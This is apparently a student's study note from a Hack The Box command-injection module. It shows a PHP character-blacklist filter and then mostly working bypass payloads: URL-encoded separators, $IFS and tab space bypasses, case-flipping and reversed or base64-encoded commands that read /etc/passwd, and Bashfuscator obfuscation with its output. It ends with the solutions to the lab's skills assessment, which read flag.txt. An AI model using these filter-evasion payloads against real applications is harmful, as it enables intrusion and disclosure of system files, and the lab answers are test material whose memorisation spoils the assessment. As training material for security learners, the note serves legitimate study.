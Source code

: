 
```bash!
ping -c 1 OUR_INPUT
```
If our input is not sanitized and escaped before it is used with the ping command, we may be able to inject another arbitrary command. 

---
# <span style=color:red>Blacklisted Characters</span>
```php!
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```
* URL encoding
    * & -> %26
    * | -> %7c
    * New line --> %0A
    * TAB -> %09
    * ; -> %3b
* $
```bash!
echo ${PATH}
```
```bash!
echo ${PATH:1:3}
```
---
# [<span style=color:red>Payload</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
## <span style=color:darkblue>Bypassing Space Filters</span>
* Using Tabs
```bash!
%0a%09
```
* Using $IFS
```bash!
%0a{IFS}
```
* Using Brace Expansion
```bash!
%0a{ls,-la}
```
## <span style=color:darkblue>Bypassing Other Blacklisted Characters</span>
```bash!
${LS_COLORS:10:1}${IFS}

${LS_COLORS:10:1}%0A${IFS}ls${IFS}${PATH:0:1}home
```
### Character Shifting
```bash!
H4ck3rxPK@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
H4ck3rxPK@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
## <span style=color:darkblue>Bypassing Blacklisted Commands</span>
```bash!
${IFS}c'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
## <span style=color:darkblue>Advanced Advanced Command Obfuscation</span>
```bash!
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
![](https://hackmd.io/_uploads/SyLC2boa2.png)

![](https://hackmd.io/_uploads/rydp3-oa3.png)
---

``Need to match the space in command ➔ %09(TAB) replace %20(space)``

---
### Reverse Command
```bash!
echo 'whoami' | rev
imaohw
```
```bash!
$(rev<<<'imaohw')
```

### Encoded Commands
```bash!
echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
```bash!
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

1. ``Find encryption by myself and decryption that to escape WAF rule``
2. ``Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.``
---
# [<span style=color:red>Bashfuscator](https://github.com/Bashfuscator/Bashfuscator)</span>

![](https://hackmd.io/_uploads/B1hZLV262.png)
```bash!
H4ck3rxPK@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
H4ck3rxPK@htb[/htb]$ cd Bashfuscator
H4ck3rxPK@htb[/htb]$ python3 setup.py install --user

H4ck3rxPK@htb[/htb]$ cd ./bashfuscator/bin/
H4ck3rxPK@htb[/htb]$ ./bashfuscator -h

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'
[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

H4ck3rxPK@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

## Skills Assessment Payload

### <span style=color:red>**{COLORS_LS:10:1}Not Found**</style>
![](https://hackmd.io/_uploads/S1WPh02an.png)

### Payload
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"LS")%09${PATH:0:1}
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"cAt")%09${PATH:0:1}flag.txt
```
### Another Payload
```bash!
echo -n 'cat /flag.txt' | base64
```
```bash！
bash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```